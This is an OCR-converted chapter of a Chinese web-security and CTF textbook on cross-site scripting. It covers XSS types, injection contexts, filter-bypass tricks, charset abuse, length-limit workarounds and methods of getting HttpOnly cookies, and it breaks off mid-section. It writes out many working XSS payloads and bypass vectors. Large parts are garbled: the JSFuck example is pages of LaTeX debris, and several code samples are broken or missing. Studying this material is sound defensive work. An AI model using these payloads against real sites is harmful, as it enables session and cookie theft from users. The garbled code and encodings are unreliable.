

???+ abstract "本章摘要"
    本章讲解跨站脚本攻击（XSS）：成因与分类（反射型/存储型/DOM 型，及按输出点分 HTML 标签/CSS/JavaScript 三类）、常见防护与绕过技术（标签过滤、事件过滤、关键字过滤、字符集编码、长度限制、HttpOnly、XSS Auditor、CSP）、XSS 的危害与利用技巧（窃取 Cookie、WebRTC 获取 IP 等），并以 HCTF 2016 guestbook 真题收尾。
## 章节导航

上一篇：[第2章 SQL注入攻击](第2章 SQL注入攻击.md)
下一篇：第4章 服务端请求伪造
回到目录：[00-目录](00-目录.md)

## 一、概述

现代网站为了提高用户体验往往会包含大量的动态内容，所谓动态内容，就是Web应用程序根据用户环境和需要来输出相应的内容。

经常遭受跨站脚本攻击的典型应用有：邮件、论坛、即时通信、留言板、社交平台等。

==跨站脚本攻击（Cross Site Scripting，为避免与层叠样式表CSS混淆，通常简称为XSS）是一种网站应用程序的安全漏洞，是代码注入漏洞的一种。==它使得攻击者可以通过巧妙的方法向网页中注入恶意代码，导致用户浏览器在加载网页、渲染HTML文档时就会执行攻击者的恶意代码。

大量的网站曾遭受过XSS漏洞攻击或被发现此类漏洞，如Twitter、Facebook、新浪微博和百度贴吧等。根据OWASP（Open Web Application Security Project）公布的2010年的统计数据，在Web安全威胁前10位中，XSS排名第2，仅次于SQL注入攻击漏洞。

近年的CTF比赛中，XSS漏洞也很常见，如在Alibaba CTF 2015、HCTF 2016中均有相关题目。

???+ note "定义：XSS"
    攻击者向网页注入恶意代码，用户浏览器在加载网页、渲染 HTML 文档时执行攻击者的恶意代码。
## 二、常见XSS漏洞分类

按漏洞成因，一般可以把XSS漏洞分为反射型、存储型、DOM型。

基于上述三种XSS类型，还可以根据输出点的不同，依照输出点的位置分成3类，具体如下。

- 输出在HTML属性中。
- 输出在CSS代码中。
- 输出在JavaScript中。

下面将分别为大家介绍这几种类型。

### 1. 反射型XSS

XSS代码作为客户端输入的内容提交给服务端，服务端解析后，在响应内容中返回输入的XSS代码，最终由浏览器解释执行。原型如下：

```php
<?php
echo 'your input:'.$_GET['input');
?>
```

[OCR存疑：上述代码中 `$_GET['input');` 疑为 `$_GET['input'];`。]

客户端输入的input值未经任何过滤便直接输出，所以攻击者可以提交：

```text
http://example.com/xss.php?input=<script>alert(/xss/)
</script>
```

在服务端对客户端输入的内容进行解析后，echo语句会将客户端输入的代码完整地输出到HTTP响应中，浏览器解析并执行，如图3-1所示。

{ width="100%" }

<div style="text-align: center;">图3-1 反射型XSS示例</div>

注意 上方的example.com是经过Burp进行名称转换到虚拟机的，前文1.1节的Burp工程选项介绍中有提到过。

### 2. 存储型XSS

存储型XSS与反射型XSS的区别主要在于提交的XSS代码是否会存储在服务端，下次请求该网页时是否需要再次提交XSS代码。存储型XSS的典型应用有留言板、在线聊天室、邮件服务等，攻击者提交包含XSS代码的留言后，服务端会将其存储于数据库中，其他用户访问网页查看留言时，服务端将从数据库中查询已有留言并将留言内容输出在HTTP响应中，由浏览器对包含恶意代码的响应进行解析执行。原型如下：

```html
<html>
<head>
    <title>GuestBook v1.0</title>
    <meta charset="utf-8">
    </head>
<body>
    <form method="post">
        昵称：<input type="text" name="nickname"></br>
        内容：<textarea name="content"></textarea><br>
        <input type="submit" name="submit" value="提交留言">
    </form>
    <hr>
    <?php
        $conn =
        mysql_connect("localhost", "root", "root");
        if (!$conn) {
            die('Could not connect: '. mysql_error());
        }
        mysql_select_db("guestbook", $conn);
    }
}

if (isset($_POST['submit》） {
    $nickname = $_POST['nickname》；
    $content = $_POST['content']；
    mysql_query("INSERT INTO guestbook (nickname, content) VALUES ('$nickname', '$content')");
}
$result = mysql_query("SELECT * FROM guestbook");
while($row = mysql_fetch_array($result)) {
    echo $row['nickname'] .": ".
}
mysql_close($conn);
?>
</body>
</html>
```

[OCR存疑：上述代码存在多处 OCR 破损：`$_POST['submit》）` 疑为 `$_POST['submit'])`；`$_POST['nickname》；` 疑为 `$_POST['nickname'];`；代码结构可能缺失若干行，按原文保留未作修改。]

攻击者提交留言<script>alert(/xss/)</script>后，服务端存储留言，其他用户访问网页时执行恶意代码，如图3-2所示。

{ width="100%" }

13 user2: hahaha<br>user3: heihei<br>hacker: <script>alert(/xss/)</script>

<div style="text-align: center;">图3-2 存储型XSS示例</div>

### 3. DOM XSS

DOM XSS与反射型XSS、存储型XSS的主要区别在于DOM XSS的XSS代码不需要服务端解析响应的直接参与，触发XSS的是浏览器端的DOM解析。原型如下：

```html
<html>
<head>
    <title>DOM XSS</title>
    <meta charset="utf-8">
        </head>
    <body>
        <div id="area"></div>
        <script>
            document.getElementById("area").ښرعHTML = unescape(location.hash);
        </script>
    </body>
</html>
```

[OCR存疑：上述代码中 `ښرعHTML` 为乱码，疑为 `innerHTML`。]

代码中服务端未做任何操作，而客户端的JavaScript代码动态地将location.hash赋给document.getElementById("area").innerHTML，导致了这个DOM XSS，使用方法如下：

```text
http://example.com/dom.html#
```

执行结果如图3-3所示。

{ width="100%" }

<div style="text-align: center;">图3-3 DOM XSS示例</div>

### 4. 输出在HTML标签中

原型如下：

```html
<input name="user" value={{ your input }}"/>
```

XSS攻击Payload输出在HTML属性中时，攻击者需要在闭合相应的HTML属性后注入新属性，或者在闭合标签后直接注入新标签，如输入：

```text
" onclick="alert (/xxs/)
```

闭合前面的value属性，注入新的onclick属性，则会输出：

```html
<input name="user" value="onclick="alert(/xss/)"/>
```

或输入：

```text
''><script>alert (/xss/) </script>
```

直接闭合input标签，注入新的script标签，则会输出：

```html
<input name="user" value=""></script>alert(/xss/)</script>
```

### 5. 输出在CSS代码中

原型如下：

```html
<style type="text/css">
    body {
        color: {{ your input }};
    }
</style>
```

XSS攻击Payload输出在CSS代码中时，攻击者需要闭合相应的CSS代码，如输入：

```text
#000; background-image: url('javascript:alert(/xss/')')
```

闭合前面的color属性，注入background-image属性，则会输出：

```html
<style type="text/css">
body {
    color: #000; background-image:
    url('javascript:alert(/xss/'));
}
</style>
```

### 6. 输出在Javascript代码中

原型如下：

```html
<script>
    var name='{{ your input }}';
</script>
```

XSS攻击Payload输出在Javascript代码中时，攻击者需要闭合相应的Javascript代码，如输入：

```text
' +alert (/xss/) +'
```

闭合前面的单引号，注入攻击代码，则会输出：

```html
<script>
var name=''+alert(/xss/)+'';
</script>
```

???+ tip "本节要点"
    1. 三种类型：反射型（服务端回显输入）、存储型（入库后输出）、DOM 型（浏览器端 DOM 解析触发，无需服务端参与）；
    2. 输出点三类：HTML 标签中（闭合属性/标签）、CSS 代码中（闭合属性注入 background-image 等）、JavaScript 代码中（闭合引号拼接代码）；
    3. 判断输出位置是选择 Payload 形态的第一步。
## 三、防护与绕过

鉴于各网站被挖掘出的XSS漏洞数量之多，开发者对其的重视程度也随之增大。Web应用层处理XSS漏洞的办法有很多，比如，特定标签过滤、事件过滤、敏感关键字过滤等，同时浏览器也会对XSS漏洞的利用进行限制（XSS Auditor、CSP等），本节将对常见的防护技术进行介绍并提出相应的绕过方案。

### 1. 特定标签过滤

部分开发者认为过滤掉危险标签（如script、iframe等）就会导致无法执行脚本，但其实任何一种标签，无论是否合法，都可以构造出XSS代码，比如如下代码：

```html
<not_real_tag onclick="alert(/xss/)">click me</not_real_tag>
```

这段代码在用户点击时也会执行XSS代码。

如果输出点在HTML标签的属性中或在Javascript代码中，那么攻击者可以简单地闭合、拼接属性或Javascript代码而不需要引入任何新标签就可以执行XSS代码。

同时，HTML5也带来了部分新标签，容易被开发者忽略，如video标签：

```html
<video><source onerror="alert(/xss/)">
```

这里推荐HTML5 Security Cheatsheet: http://html5sec.org/，其中包含了许多XSS攻击向量以供学习和参考。

### 2. 事件过滤

很多时候，开发者会过滤掉许多HTML标签的事件属性，这时需要对所有可利用的事件属性进行遍历，测试一下开发者是否有所遗漏。常用的事件属性如下，测试时可使用Burp或自行编写脚本进行Fuzz：

| onafterprint | oninput |
| --- | --- |
| onscroll |  |
| onbeforeprint | oninvalid |
| onabort |  |
| onbeforeunload | onreset |
| oncanplay |  |
| onerror | onselect |
| oncanplaythrough |  |
| onhaschange | onsubmit |
| ondurationchange |  |
| onload | onkeydown |
| onemptied |  |
| onmessage | onkeypress |
| onended |  |
| onoffline | onkeyup |
| onerror |  |
| ononline | onclick |
| onloadeddata |  |
| onpagehide | ondblclick |

另外，还有一些标签属性本身不属于事件属性，但可用于执行JavaScript代码，比如常见的JavaScript伪协议：

```html
<a href="javascript:alert(/xss/)">click me</a>
```

同时，HTML5也带来了一些新的属性，可以用于对事件过滤进行绕过操作，例如：

```html
1. <details open ontoggle="alert(/xss/)">
2. <form><button
    formaction="javascript:alert(/x/)">X</button>
  ...
```

### 3. 敏感关键字（字符）过滤

关键字过滤大部分是针对敏感变量或函数而进行的，如cookie、eval等，这部分的过滤可通过字符串拼接、编码解码等方法进行绕过。

#### (1) 字符串拼接与混淆

JavaScript中的对象方法可通过数组的方式进行调用，如调用alert函数，可以使用如下方式：

```js
window['alert'] (/xss/);
```

可以看到，数组下标是想要调用函数名字的字符串，既然是字符串，那么自然就可以通过拼接的方式进行混淆，代码如下：

```js
window['al'+'ert'] (/xss/)
```

我们还可以使用JavaScript自带的Base64编码解码函数来实现字符串过滤的绕过，btoa函数可以将字符串编码为Base64字符串，atob函数可以将Base64字符串还原，比如，btoa("alert")会返回"YWxlcnQ="，这时利用如下代码也可实现与alert(/xss/)相同的效果：

```js
window[atob("YWxl"+"cnQ=")] (/xss/)
```

#### (2) 编码解码

基于字符串的代码混淆不仅可以通过字符串拼接的方式来实现，还可以通过各种编码、解码来实现。XSS漏洞中常用的编码方式包括：

- HTML进制编码：十进制（&#97;）、十六进制（&#x61;）
- CSS进制编码：兼容HTML中的进制表现形式，十进制、十六进制（\61）
- Javascript进制编码：八进制（\141）、十六进制（\x61）、Unicode编码（\u61）、ASCII（String.fromCharCode(97)）
- URL编码：%61
- JSFuck编码

这里值得一提的是JSFuck编码，它可以只使用"[ ]()!+"6个字符来编写Javascript程序，在某些场景下具有奇效。例如alert(1)可编码为：

```text
\[[\bigstar]\bigstar\big[\bigstar\big(!\bigstar\big[[\bigstar]+\bigstar[\bigstar]\bigstar\big[+\bigstar\big[[\bigstar]+\bigstar[\bigstar]\bigstar\big]\bigstar\big]+\bigstar\big(\bigstar\big[[\bigstar\big[[\bigstar]\bigstar]+\bigstar[\bigstar]\bigstar\big[+\bigstar\big[[\bigstar\big[[\bigstar]+\bigstar[\bigstar]+\bigstar[\bigstar]+\bigstar\big[[\bigstar]+\bigstar[\bigstar]\bigstar\big]\bigstar\big]+\bigstar\big(\bigstar\big[[\bigstar\big[[\bigstar\big[[\bigstar\big[+\bigstar\big[[\bigstar\big[[\bigstar\big[+\bigstar\big[+\bigstar\big[+\bigstar\big[+\bigstar\

 $$ [\bigstar]+!+\bigstar[\bigstar]\bigstar]\bigstar]+(!\bigstar[\bigstar]+[\bigstar])\bigstar[+[\bigstar[\bigstar]+[\bigstar]+!+[\bigstar]]\bigstar]+(!!\bigstar[\bigstar]+[\bigstar])\bigstar+[\bigstar[+\bigstar[\bigstar]]\bigstar]+ $$ 

 $$ \left(\begin{array}{c}\dot{!}\quad!\quad[\quad]+[\quad]\end{array}\right)\quad\left[+\quad[\quad]!\quad+\quad[\quad]+!\quad+\quad[\quad]+!+\quad[\quad]\right]\quad\left]+\quad!\quad!\quad[\quad]+[\quad]\right)\quad\left[+\quad[\quad]+!\quad+\quad[\quad]\right]\quad\left]\quad\quad\quad\quad\quad\right]\quad\left[\quad\quad\quad\quad\right]\quad\left[\quad\quad\quad\quad\right] $$ 

\[\left[\begin{array}{c}\left(\begin{array}{c}\end{array}\right]\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\end{array}\right)\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\end{array}\right]+\left(\begin{array}{c}\left[\begin{array}{c}\end{array}\right]\left[\begin{array}{c}\end{array}\right]\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\left[\begin{array}{c}\end{array}\right]\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\end{array}\right]+\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\

 $$ [\mathbf{\Omega}]\mathbf{\Omega}]\mathbf{\Omega}]+(!\mathbf{\Omega}][\mathbf{\Omega}]+[\mathbf{\Omega}]\mathbf{\Omega}]+[\mathbf{\Omega}!+[\mathbf{\Omega}]+!+[\mathbf{\Omega}]]\mathbf{\Omega}]+(!\mathbf{\Omega}![\mathbf{\Omega}]+[\mathbf{\Omega}]\mathbf{\Omega}]+[[\mathbf{\Omega}][\mathbf{\Omega}]]\mathbf{\Omega}]+(!\mathbf{\Omega}![\mathbf{\Omega}]]\mathbf{\Omega}] $$ 

 $$ [\big]++1+[\big]++1+[\big]]\big]]+\left(\left[\right]\left[\left(!\right[\left.\right]+\left[\right.\right]\right)\left[++\left[\left.+\left[\right.\right]\right]\right]\big]+\left(\left[\right]\left[\left[\right.\right]\big]+\left[\left.\right]\right]\right)\left[++\left[\left.\right]!\right]+ $$ 

 $$ [\bigstar]+1+\bigstar[{\bigstar}]+1+\bigstar[{\bigstar}]+1+\bigstar[{\bigstar}]+1+\bigstar[{\bigstar}]\bigstar]+(!\bigstar[{\bigstar}]+[\bigstar])\bigstar[+\bigstar[{\bigstar}]+[\bigstar]]\bigstar[+\bigstar[{\bigstar}]+[\bigstar]+[\bigstar]]\bigstar]+(!\bigstar[{\bigstar}]+[\bigstar]]+( $$ 

\[\begin{array}{l} \left[\begin{array}{c} \left[\begin{array}{c} [++{}]]\nonumber \end{array} \right]+(!![[}}+{}]\end{array} \right]  \left[\begin{array}{c} \left[\begin{array}{c} !+[ ]+[ ]\quad[ ]+[ ]+[ ]\quad[ ]+[ ]+[ ]\quad[ ]+[ ]+[ ]\quad[ ]+[ ]\quad[ ]+[ ]\quad[ ]\quad[ ]\quad

 $$ \left[\begin{array}{c}\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\\ \end{array}\right]\left[+\left[\begin{array}{c}\left[+\right]+\left[\begin{array}{c}\end{array}\right]\\ \end{array}\right]\right]+\left(\begin{array}{c}\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\\ \end{array}\right]\left[+\left[\begin{array}{c}\left[\begin{array}{c}\right]+\left[\begin{array}{c}\end{array}\right]+1\end{array}\right]+\left[\begin{array}{c}\end{array}\right]+1\right]+\left[\begin{array}{c}\end{array}\right]\\ \end{array}\right]\left]+\left(\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\end{array}\right] $$ 

 $$ [\bigstar]\bigstar)+\bigstar[+\bigstar+[[]]]]+\bigstar(!,!,[[]]+[[])\bigstar[++,+!+[[]]+\bigstar([]][[]]++[[])\bigstar[++++[]]]+\bigstar[++[]]]]] $$ 

\[\left(\left[\right]\left[\left(\right.!\left[\right]+\left[\right]\right)\left.+\left[\left[\right.+\left[\right]\right.\right]\right]+\left(\left[\right]\left[\left[\right.\right.\right]+\left[\left.\left.\right]\right.\right)\left.+\left[\left[\right.\left.\left.\right]\right.\right]+\left[\left.\left.\right.\right]\right.\right]+\left[\left.\left.\left.\right]\right.\right]+\left[\left.\left.\left.\right.\right]\right.\right]+\left[\left.\left.\left.\right.\right]\right]+\left[\left.\left.\left.\right.\right]\right]+\left[\left.\left.\left.\right.\right]\right]+\left[\left.\left.\left.\

\[\left(\begin{array}{c}\dot{!}\quad!\quad[\quad]+[\quad]\end{array}\right)\quad\left[+\quad[\quad]!\quad+\quad[\quad]+!\quad+\quad[\quad]+!+\quad[\quad]\right]\quad\left]+\quad!\quad!\quad[\quad]+[\quad]\right)\quad\left[+\quad[\quad]+!\quad+\quad[\quad]\right]\quad\left]\quad\quad\quad\

 $$ \left[+\left[\begin{array}{c}!+\\ !+\end{array}\right]+!+\left[\begin{array}{c}!+\\ !+\end{array}\right]+!+\left[\begin{array}{c}!\end{array}\right]\right]+\left(!\right!\left[\begin{array}{c}!\end{array}\right]+\left[\begin{array}{c}!\end{array}\right]\left[+\left[\begin{array}{c}+\end{array}\right]\right]+\left(!\right!\left[\begin{array}{c}!\end{array}\right]\left[\begin{array}{c}!\end{array}\right]+[\begin{array}{c}!\end{array}\right]\left[\begin{array}{c}!\end{array}\right] $$ 

 $$ \left[\begin{array}{c}\left[+\left[\right]\right]\end{array}\right]\left.\right]\right]+(\left[\right]\left[\begin{array}{c}\left[\right]\end{array}\right]+[\left.\right])\left.\right]+[\left[\right.\left[!+\left[\right.\right]+!+\left[\right.\right]+!+[\left.\right]+!+\left[\right.\right]+!+[\left.\right]\left.\right])\left.\right]+(\left.\right)[\left[\right]+ $$ 

\[[\bigstar]\bigstar)+\bigstar[+\bigstar[[\bigstar]+[\bigstar]+[\bigstar]+[\bigstar]\bigstar]+\bigstar(!\bigstar[[\bigstar]+[\bigstar]\bigstar]\bigstar+\bigstar[[\bigstar]+[\bigstar]\bigstar]\bigstar+\bigstar(!\bigstar[[\bigstar]+[\bigstar]\bigstar]\bigstar+\bigstar[[\bigstar]+[\bigstar]\bigstar]\bigstar+\bigstar[[\bigstar]+[\bigstar

\[[\mathbf{\Sigma}]+1+\mathbf{\Sigma}\mathbf{I}]+1+\mathbf{\Sigma}\mathbf{I}]\mathbf{\Sigma}]+(\mathbf{\Sigma}\mathbf{I}\mathbf{I})\mathbf{\Sigma}+\mathbf{\Sigma}(\mathbf{I}\mathbf{I}\mathbf{I})\mathbf{\Sigma}+\mathbf{\Sigma}(\mathbf{I}\mathbf{I}\mathbf{I})\mathbf{\Sigma}+\mathbf{\Sigma}(\mathbf{

 $$ [\big]++1+[\big]++1+[\big]++1+[\big]]]]+(\mathbb{i}!\mathbb{j}[\big]+\mathbb{k}[\big])\mathbb{l}+[\mathbb{l}++[\mathbb{k}]]]\mathbb{l} $$  

 $$ \left[++!+[\right]\left.~\right]~\left]~\right]+(!![\right]+\left[~\right])\left[++[\left.~\right!++[\right]++!++[\left.~\right]\right]\left]~\right]+(!![\left.~\right!++[\right])\left[++[\left.~\right!++[\right]+!++[\left.~\right]\right] $$ 

\[\left[\begin{array}{c}\left(\begin{array}{c}\end{array}\right]\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\end{array}\right)\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\end{array}\right]+\left(\begin{array}{c}\left[\begin{array}{c}\end{array}\right]\left[\begin{array}{c}\end{array}\right]\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\left[\begin{array}{c}\end{array}\right]\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\end{array}\right]\end{array}\right]+\left[\begin{array}{c}\end{array}\right]+\left[\begin{array}{c}\

 $$ [\mathbf{\Omega}]\mathbf{\Omega}]\mathbf{\Omega}]+(\mathbf{\Omega}![\mathbf{\Omega}]+[\mathbf{\Omega}])\mathbf{\Omega}]+[\mathbf{\Omega}![\mathbf{\Omega}]+[\mathbf{\Omega}]+!+[\mathbf{\Omega}]]\mathbf{\Omega}]+(\mathbf{\Omega}!![\mathbf{\Omega}]+[\mathbf{\Omega}])\mathbf{\Omega}]+[\mathbf{\Omega}![\mathbf{\Omega}]+[\mathbf{\Omega}]]\mathbf{\Omega}]+(\mathbf{\Omega}!![\mathbf{\Omega}]+[\mathbf{\Omega}]]\mathbf{\Omega}] $$ 

\[[\;\mathbf{\Sigma}\mathbf{\Sigma}\mathbf{\Sigma}\mathbf

\[\left[\begin{array}{c}\left[+\left[\right]\right]\end{array}\right]\left.\right]\right]+(\left[\right]\left[\begin{array}{c}\left[\right]\end{array}\right]+[\left.\right]\left.\right])\left[+\left[\right]\right.!\left[+\left[\right.\right]+!\left[.\right]+!\left[.\right]\left[+\left[\right]\right.+\left[.\right]\left[+\left[\right]\right.+\left[.\right]\left[.\right]\right.]\left.\right]+(\left.\right]\left[\right.\left[+\left(\right)\right]\left[\left.\right]\right]+\left[\left.\right]\right]\left[\left[\right]\right.+\left[\left.\right

 $$ [\bigstar]\bigstar)+\bigstar[+\bigstar[[\bigstar]+[\bigstar]+[\bigstar]+[\bigstar]]\bigstar]+\bigstar([\bigstar]+[\bigstar]+[\bigstar]]\bigstar)+\bigstar[[\bigstar]+[\bigstar]]\bigstar]+([\bigstar]+[\bigstar]]\bigstar)+\bigstar([\bigstar]+[\bigstar]]\bigstar]+([\bigstar]+[\bigstar]]\bigstar)+\bigstar[[\bigstar]+[\bigstar]]\bigstar] $$ 

 $$ [\bigstar]+!+\bigstar[{\bigstar}]+!+\bigstar[{\bigstar}]\bigstar]\bigstar]+(!\bigstar![{\bigstar}]+[\bigstar]{\bigstar}][++!+[{\bigstar}]]+[{\bigstar}]]\bigstar[++!+[{\bigstar}]]+[{\bigstar}]]+[{\bigstar}]]=0, $$ 

 $$ [\mathbf{\Lambda}]+1+\mathbf{\Lambda}[\mathbf{\Lambda}]+1+\mathbf{\Lambda}[\mathbf{\Lambda}]+1+[\mathbf{\Lambda}]+1+[\mathbf{\Lambda}] $$ 
```

[OCR存疑：JSFuck 编码示例已被 OCR 严重破坏（符号被误识别为 LaTeX 数学公式），原文实际内容不可恢复，按 OCR 结果原样保留。JSFuck 示例的正确编码可参考工具 XSSEE。]

这里推荐使用编码工具XSSEE（https://evilcos.me/lab/xssee/），其包含了大量的编码方式，非常实用。

#### (3) location.*, window.name

既然开发者会对输入的敏感关键字进行过滤，那么可以将XSS代码放置于其他不被浏览器提交至服务端的部分，如location.*、window.name等处，location.*的构造如下：

```text
http://example.com/xss.php?input=<input
onfocus=outerHTML=decodeURI(location.hash)>\#
```

window.name 的构造页面如下:

```html
<iframe src="http://example.com/xss.php?input=%3Cinput%20onfocus=location=window.name%3E" name="javascript:alert(/xss/)"></iframe>
```

利用location对象结合字符串编码可以绕过很多基于关键字的过滤。

也有一部分关键字过滤是针对敏感符号的过滤，如括号、空格、小数点等。

#### (4) 过滤"."

在JavaScript中，可以使用with关键字设置变量的作用域，利用此特性可以绕过对"."的过滤，如：

```js
with (document)alert(cookie);
```

#### (5) 过滤"()"

在JavaScript中，可以通过绑定错误处理函数，使用throw关键字传递参数绕过对"()"的过滤，如：

```js
window.onerror=alert; throw 1;
```

#### (6) 过滤空格

在标签属性间可使用换行符0x09、0x10、0x12、0x13、0x0a等字符代替空格绕过过滤，如：

```text
http://example.com/xss.php?input=
```

在标签名称和第一个属性间也可以使用"/"代替空格，如：

```html
<input/onfocus=alert(/xss/)>
```

#### (7) svg标签

svg内部的标签和语句遵循的规则是直接继承自xml而不是html，区别在于svg内部的script标签中可以允许存在一部分进制或编码后的字符（比如实体编码）：

### 4. 字符集编码导致的绕过

当字符集编码存在问题时常常会导致一些出乎意料的绕过，举例说明如下。

#### (1) 古老的UTF-7与US-ASCII

在没有通过Content-Type或meta标签设置字符集时，如果IE的编码设置为自动检测，那么它会根据一些BOM字符来判断当前的字符集（现在已不适用），如：

```html
<html>
<head><title>UTF-7</title></head>
<body>
+ADw-script+AD4-alert (/xss/) +ADw-/script+AD4-</body>
</html>
```

另外一种情况是，虽然IE没有勾选自动检测字符集的设置，但可以通过制作一个字符集为UTF-7的页面，并使用iframe标签来调用目标页面，利用字符集继承漏洞来实现字符集的设定，如：

```html
<meta http-equiv='content-type'
content='text/html;charset=UTF-7'>
<iframe src='http://example.com/xss.php?input=%2BADw-script%2BAD4-alert(/xss/)%2BADw-%2Fscript%2BAD4-'>
</iframe>
```

不过很遗憾，这种基于iframe的跨域字符集继承漏洞已经被修复，当前的情况是：继承的大前提是必须同域。

如果输出点是在title标签之内，meta标签之前，且字符集是由meta标签所指定的，那么仍可通过如下方式注入meta标签指定字符集来利用XSS漏洞，原型如下：

```html
<html>
    <head>
        <title>{ your input }</title>
        <meta http-equiv="content-type" content="text/html; charset=UTF-8">
            </head>
    </html>
```

在title标签中注入如下代码：

```text
</title><meta charset="utf-7">+ADw-script+AD4-alert (/xss/) +ADw-/script+AD4-:
```

最终可以构造出：

```html
<html>
    <head>
        <title></title><meta charset="utf-7">+ADw-script+AD4-alert(1)+ADw-/script+AD4-</title>
        <meta http-equiv="content-type" content="text/html"; charset=UTF-8"></head>
    </html>
```

基于US-ASCII字符集的XSS漏洞与基于UTF-7的XSS漏洞很相似，代码如下：

```html
<html>
    <head>
        <meta http-equiv="content-type" content="text/html; charset=us-ascii">
            </head>
        <body>
            シ script セ alert(1)/script セ
        </body>
    </html>
```

#### (2) 宽字节

考虑如下代码：

```html
<html>
    <head>
        <title>XSS</title>
        <meta charset="gb2312">
            </head>
        <body>
            <script>
                var q="<?php echo str_replace('</','<\ /',addslashes($_GET['input']));?>";
            </script>
        </body>
    </html>
```

这段代码通过str_replace和addslashes对输入进行过滤，而这里可以使用宽字节进行绕过，Payload如下：

[OCR存疑：原文此处"Payload如下："后无内容，疑为图片或代码缺失。]

#### (3) 一些特殊的字符

日本安全研究人员Masato kinugawa对浏览器字符集编码进行测试后发现，由于字符集的原因，在浏览器中会出现如下几种情况。

- 特定的byte最后会变成特别的字符。
- 特定的byte会破坏紧随其后的文字。
- 特定的byte会被忽略。

这些特殊字符可用于绕过浏览器的XSS Auditor、制造基于字符编码的XSS漏洞等方面，如图3-4所示。

{ width="100%" }

<div style="text-align: center;">图3-4 特殊字符绕过</div>

完整的测试结果在：http://10.cm/encodings/。

### 5. 长度限制

部分输入点会限制输入字符的数量，这时就需要使XSS代码尽量短小精悍，可使用如下方式：

```text
window.name
location.*
```

window.name和location.*都可以通过将代码放置在别处以减小输入点代码量，如：

```html
<iframe src="http://example.com/xss.php?input=%3Cinput%20onfocus=eval(window.name)%3E" name="alert(/xss/)"></iframe>
```

#### · 第三方库工厂函数

诸如jQuery等第三方JavaScript库大部分都会提供相应的工厂函数，如jQuery中的"$()"，它会自动构造标签，并且执行其中的代码：

```html
<iframe src="http://example.com/xss.php?input=%3Cinput%20onfocus=$ (window.name)%3E" name=""/>
```

#### · 注释

在一些环境下可以使用注释来绕过长度限制。具体操作是将XSS代码分为多个阶段，在每个阶段的代码前后添加注释符号，依次注入XSS代码，这样不同阶段的代码就可以组合到一起了，如下所示：

```text
stage 1: <script>/*
stage 2: */alert(1)/*
stage 3: */</script>
```

HttpOnly是Cookie的一个安全属性，设置后则可以在XSS漏洞发生时避免JavaScript读取到Cookie，但即使设置了HttpOnly属性，也仍有方法获取到Cookie值。

#### (1) CVE-2012-0053

Apache服务器2.2.0-2.2.21版本存在一个漏洞CVE-2012-0053：攻击者可通过向网站植入超大的Cookie，令其HTTP头超过Apache的LimitRequestFieldSize（最大请求长度，4192字节），使得Apache返回400错误，状态页中包含了HttpOnly保护的Cookie。

源代码可参见：https://www.exploitdb.com/exploits/18442/

除了Apache，一些其他的Web服务器在使用者不了解其特性的情况下，也很容易出现HttpOnly保护的Cookie被爆出的情况，例如Squid等。

#### (2) PHP INFO 页面

无论是否设置了HttpOnly属性，phpinfo()函数都会输出当前请求上下文的Cookie信息。如果目标网站存在PHPINFO页面，就可以通过XMLHttpRequest请求该页面获取Cookie信息。

#### (3) Flash/Java

安全团队seckb在2012年提出，通过Flash、Java的一些API可以获取到HttpOnly Cookie，这种情况可以归结为客户端的信息泄露，链接地址为：http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html。

### 7. XSS Auditor 绕过

反射型XSS漏洞作为一种最容易发现和挖掘的XSS漏洞，从被发现至今已经活跃了非常长的时间。但是由于浏览器的XSS Auditor的出现，使反射型XSS漏洞的作用被逐步弱化。XSS Auditor通过检查输入的内容，判断该内容是否在输出中出现。如果符合XSS Auditor的过滤条件，则会直接阻止脚本执行，如图3-5所示。

{ width="100%" }

<div style="text-align: center;">图3-5 Chrome浏览器的XSS Auditor防护</div>

然而安全人员的研究表明，XSS Auditor同样可以被绕过。

- 字符集编码导致的绕过。正如前文所言，在一定场景下，字符集编码可能会导致XSS过滤的绕过，在XSS Auditor中也是一样。

由于低版本Chrome浏览器对ISO-2022-JP等编码处理不当，在页面没有设置默认编码并使用这个日语字符集时，XSS Auditor检查的部分会向Payload添加Oxf字符，这样就可以绕过XSS Auditor。XSS代码如下：

